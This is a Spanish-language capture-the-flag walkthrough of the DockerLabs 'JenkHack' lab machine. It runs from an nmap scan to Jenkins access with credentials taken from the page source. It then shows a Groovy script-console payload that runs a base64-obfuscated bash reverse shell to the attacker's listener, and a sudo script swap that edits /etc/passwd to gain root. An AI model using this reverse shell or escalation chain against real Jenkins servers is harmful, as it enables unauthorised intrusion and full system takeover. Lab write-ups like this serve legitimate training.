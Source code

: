 # jenkhack

Máquina "JenkHack" de [DockerLabs](https://dockerlabs.es)

Autor: [d1se0](https://github.com/D1se0)

Dificultad: Fácil

![jenk](../../../maquina-jenkhack/img/jen.png)

## RECONOCIMIENTO

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oG escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Thu Sep  5 13:57:51 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-09-05 13:57:52 -03 for 15s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE  REASON         VERSION
80/tcp   open  http     syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Hacker Nexus - jenkhack.hl
443/tcp  open  ssl/http syn-ack ttl 64 Jetty 10.0.13
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=AU
| Issuer: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=AU
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-09-01T12:00:45
| Not valid after:  2025-09-01T12:00:45
| MD5:   ca28:f274:9396:ea58:166b:e855:d80a:f8f7
| SHA-1: e8d7:abe6:d118:714a:1b6f:0b76:6811:055c:b16a:1d87
| -----BEGIN CERTIFICATE-----
| MIIDazCCAlOgAwIBAgIUBSmiF+Gc+BiN8WyNFzgeUmymIWgwDQYJKoZIhvcNAQEL
| BQAwRTELMAkGA1UEBhMCQVUxEzARBgNVBAgMClNvbWUtU3RhdGUxITAfBgNVBAoM
| GEludGVybmV0IFdpZGdpdHMgUHR5IEx0ZDAeFw0yNDA5MDExMjAwNDVaFw0yNTA5
| MDExMjAwNDVaMEUxCzAJBgNVBAYTAkFVMRMwEQYDVQQIDApTb21lLVN0YXRlMSEw
| HwYDVQQKDBhJbnRlcm5ldCBXaWRnaXRzIFB0eSBMdGQwggEiMA0GCSqGSIb3DQEB
| AQUAA4IBDwAwggEKAoIBAQCbdR8hWd693nt7C0ktew9VEHWerAmkRUNoUf2FJML3
| dew4Nl3Cn8nBCshRmqmrNBplc275t1MdQcsKJKxDPqXyNfNy0tX9DEa4outbJb19
| Y1hzIbfGGyTi7uxphIR46UUOx9vEUZeyoxLVifBHxY962ZwkRGnTMFCsiOJFTg7L
| +1J3V+FW6OLLN5cHhD+GzVfoglOXsKwzsGLNjTlBbqEaVFMnNo83nCCP/ZKMXiXe
| Rsld959G1NZZSV9GEX5s3e4iW9FvWxII1zamUiehkgf5SPJ6rLV5/hxzx3uAJzL7
| Ur1TV2HTqMfsSdG6uFd5WWAgcTxiIRu0liuxJxg08HPhAgMBAAGjUzBRMB0GA1Ud
| DgQWBBRcV7ZdtrWbCXIS+WBD2yRIwWWvADAfBgNVHSMEGDAWgBRcV7ZdtrWbCXIS
| +WBD2yRIwWWvADAPBgNVHRMBAf8EBTADAQH/MA0GCSqGSIb3DQEBCwUAA4IBAQBc
| i803xq4wpjHJ+U/7xCRJB5Jia47VpRB6JeKMpxvRIDHxHkJDngEQ2eu+CsG/+TDP
| s/1/dgYsJJsOHG9xM9rFfmaVM7JPn9iuRlfg93pVn7jRcuuoFUGVGFQUwOCGFX2d
| +qq5Q+kQZZVNGkuNo0u/xhTE2Rr8bS0uOpaYqnfAFW3vVi8bh4/W81gjzTHCE9to
| B7zJSYXqsekAp381jRBUnz2XMjEpl0cVOHn+TwCVlKLUh+ZuP47D3A87iGjErrji
| woSNfGhH5GkXLQIm8kTEm8CgKcyLus9UuDn53mX8PB85LRjfGZ9ZNR56SfhFqCcs
| aKJxfwi0qS+3MP0YOEFZ
|_-----END CERTIFICATE-----
|_http-server-header: Jetty(10.0.13)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| http-robots.txt: 1 disallowed entry 
|_/
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
8080/tcp open  http     syn-ack ttl 64 Jetty 10.0.13
|_http-server-header: Jetty(10.0.13)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
| http-robots.txt: 1 disallowed entry 
|_/
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep  5 13:58:07 2024 -- 1 IP address (1 host up) scanned in 16.34 seconds
```

Como vemos está abierto el puerto `80, 443 y 8080`.

Ahora continuaremos por el navegador al puerto 80:

![80](../../../maquina-jenkhack/img/80.png)

No tiene nada interesante por lo que continuaremos al 8080:

![8080](../../../maquina-jenkhack/img/8080.png)

Tenemos un jenkins.

Si intentamos las credenciales comunes como `admin:admin` o `root:root` no tendremos acceso, por lo que buscaremos algún usuario y contraseña.

Luego de revisar el codigo fuente de la página en el puerto 80, encuentro dos palabras que parecen ser usuarios y al probarlas como usuario y contraseña en el puerto 8080, podemos entrar:

```css
alt="jenkins-admin">
alt="cassandra">
```

`jenkins-admin:cassandra`.

## INTRUSION

Estando dentro del jenkins, iremos a `/script`, esto nos llevará a una script conosole que nos permitirá ejecutar comandos. Para enviarnos una reverse shell, debemos ejecutar esto:

```groovy
def cmd = "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTcuMC4xLzQ0MyAwPiYxCg==}|{base64,-d}|{bash,-i}"
def process = cmd.execute()
process.waitFor()
```

Esto nos enviará una reverse shell por el puerto 443, por lo que antes de ejecutarla escucharemos en ese puerto:

```css
sudo nc -nlvp 443
```

una vez estemos escuchando en ese puerto, ejecutamos el comando en la página y **ganaremos acceso.**

## ESCALADA DE PRIVILEGIOS

#### jenkins

Como nos hemos entrado mediante una reverse shell, tendremos que hacer el `tratamiento de la tty`:

```css
script /dev/null -c bash # Lo ejecutamos y luego presionamos ctrl+Z
stty raw -echo;fg # Lo ejecutamos y luego escribimos "reset xterm" y enter
export TERM=xterm && export SHELL=bash
```

Ahora si que no se nos cerrará la conexión y estaremos cómodos.

Si leemos el archivo `/etc/passwd`, veremos un usuario llamado "jenkhack".

Si buscamos algún archivo con ese nombre, encontraremos una carpeta que tiene una nota. Para buscar ejecutamos `find / -name "jenkhack" 2>/dev/null`. Si la leemos vemos esto:

```
jenkhack:C1V9uBl8!'Ci*`uDfP
```

Como vemos la contraseña no está en un formato legible, por lo que iremos a [CyberChef](https://gchq.github.io/CyberChef/), y luego de probar, podemos pasarlo a texto con `base85`:

![chef](../../../maquina-jenkhack/img/chef.png)

Ahora escalamos poniendo `su jenkhack` y la contraseña.

#### Jenkhack

Ahora si ejecutamos un `sudo -l`, veremos esto:

```css
Matching Defaults entries for jenkhack on 36d30cf5e4f4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jenkhack may run the following commands on 36d30cf5e4f4:
    (ALL : ALL) NOPASSWD: /usr/local/bin/bash
```

Pero si probamos a ejecutarlo solo nos muestra un mensaje, lo que significa que no es realmente bash sino un script. Al leerlo podemos ver esto en una parte:

```css
Running command.../opt/bash.sh
```

Por lo que vamos a `/opt/` pero ya hay un archivo llamado así, por lo que lo borramos con `rm bash.sh` y creamos otro con el siguiente contenido:

```css
#!/bin/bash

nano /etc/passwd
```

Esto nos dejará modificar el `/etc/passwd` cuando ejecutemos el script con sudo, y ya nos quedariá borrar la "x" de root y escalar con `su`

![root](../../../maquina-jenkhack/img/root.png)

Gracias por leer.
